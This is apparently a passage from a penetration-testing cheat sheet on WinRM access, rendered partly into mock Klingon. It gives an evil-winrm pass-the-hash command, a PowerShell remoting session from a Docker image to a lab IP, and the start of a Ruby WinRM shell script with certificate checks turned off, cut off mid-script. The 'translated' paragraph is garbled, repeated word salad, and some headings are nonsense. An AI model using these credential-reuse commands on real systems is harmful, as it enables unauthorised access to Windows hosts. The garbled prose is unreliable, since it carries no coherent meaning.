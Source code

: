 ### Pass the hash with evil-winrm

---

**Klingon Translation:**

### evil-winrm-ghItlh

**IPv6 address**-Daq evil-winrm-ghItlh **chel**-e' **/etc/hosts**-Daq **ghItlh**-e' **domain name**-e' **chel**-e' **IPv6 address**-e' **ghItlh**-e' **connect**-e' **chel**-e' **domain**-e' **ghItlh**-e' **connect**-e' **chel**-e'.

### Pass the hash with evil-winrm

---
```ruby
evil-winrm -u <username> -H <Hash> -i <IP>
```
![](<../.gitbook/assets/image (173).png>)

### PS-docker machine vIqaw'a' 'e' vItlhutlh.
```
docker run -it quickbreach/powershell-ntlm
$creds = Get-Credential
Enter-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $creds
```
### ruby script jImej

**Code extracted from here: [https://alamot.github.io/winrm\_shell/](https://alamot.github.io/winrm\_shell/)**
```ruby
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt
# https://alamot.github.io/winrm_shell/


conn = WinRM::Connection.new(
endpoint: 'https://IP:PORT/wsman',
transport: :ssl,
user: 'username',
password: 'password',
:no_ssl_peer_verification => true
)


class String
def tokenize
self.
split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
select {|s| not s.empty? }.
map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
end
end


```